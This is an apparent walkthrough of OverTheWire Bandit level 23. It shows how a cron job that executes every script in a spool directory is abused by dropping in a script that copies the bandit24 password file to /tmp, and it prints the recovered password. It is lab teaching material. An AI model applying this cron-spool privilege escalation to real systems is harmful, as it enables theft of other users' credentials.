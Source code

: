 # Bandit Level 23

This time we have another program that runs at regular intervals, and are again told that looking in `/etc/cron.d`.

Looking at the cronjob `cronjob_bandit24`, it runs a script at `/usr/bin/cronjob_bandit23.sh`. This shell script is as follows:

```sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

We can see that this script runs all code in `/var/spool/bandit24` every minute. To exploit this we must write our own shell script to find us the password.

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/thisdirisours/passwd
```

We need to mark this script as executable so it can be run by the cronjob. We can do this with `chmod`.
> `chmod a+x <filename>`

We also need to create a file to receive the password, and give it the correct permissions. We create the file with `touch` and change the permissions with `chmod`.
> `touch passwd && chmod a=wr passwd`

Now we copy our script into `/var/spool/bandit24` and wait. Once the cronjob occurs and runs our script, there will be text in the `passwd` file.
Opening this file reveals the password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
